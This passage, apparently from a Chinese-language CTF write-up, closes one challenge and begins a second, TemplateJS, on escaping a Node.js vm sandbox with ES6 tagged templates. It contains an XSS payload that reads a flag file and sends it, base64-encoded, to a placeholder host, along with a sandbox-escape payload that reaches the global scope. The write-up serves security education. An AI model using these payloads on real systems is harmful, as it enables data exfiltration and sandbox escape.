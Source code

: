 构造出最终的payload：
```
file:///app/templates/index.html?grey","status":"ok","content":["\"><script>fetch('file:///app/templates/flag.txt').then(r=>r.text()).then(data=>fetch('http://IP/'%2Bbtoa(data)))</script><!--"],"a":"
```

### TemplateJS

这是一道node.js的沙盒题，根据题目提示`ECMAScript 6 brought in a new paradigm to JavaScript: template programming!!111 ... kinda`需要用到ES6某些关于模版的trick

使用vm模块构造了一个沙盒，最终目标是逃逸沙盒并访问到全局作用域中的flag变量

输入字符存在一个白名单，假如白名单中能多一个dot的话，其实就很简单了，参考vm沙盒逃逸payload

```
this.constructor.constructor\`return global.flag\`\`\`
```

***

首先来了解一下ES6 template

本质其实就是个语法糖，类似于字符串插值，由飘号包裹，`${}`中为动态计算的插值

```javascript
> console.log(`${1+1} == ${1+2} => ${1+1 == 1+2}`)
2 == 3 => false
```

有些XSS payload使用了alert\`1\`，实际上这也属于template，即tagged template。下面的例子可以很好的展示

```
~ ❯ node
> function foo(str, ...val) {console.log(str);console.log(val)}
undefined
> foo`s`
[ 's' ]
[]
undefined
> foo`s${1+1}`
[ 's', '' ]
[ 2 ]
undefined
> foo`s${1+1}k${2+2}p`
[ 's', 'k', 'p' ]
[ 2, 4 ]
undefined
> eval`1+1`
[ '1+1' ]
> console.log`1`
[ '1' ]
undefine
>
```

所以在这道题中，虽然能访问到eval，并且能通过tagged template调用，但你没办法利用它，因为它接收到的参数是个list
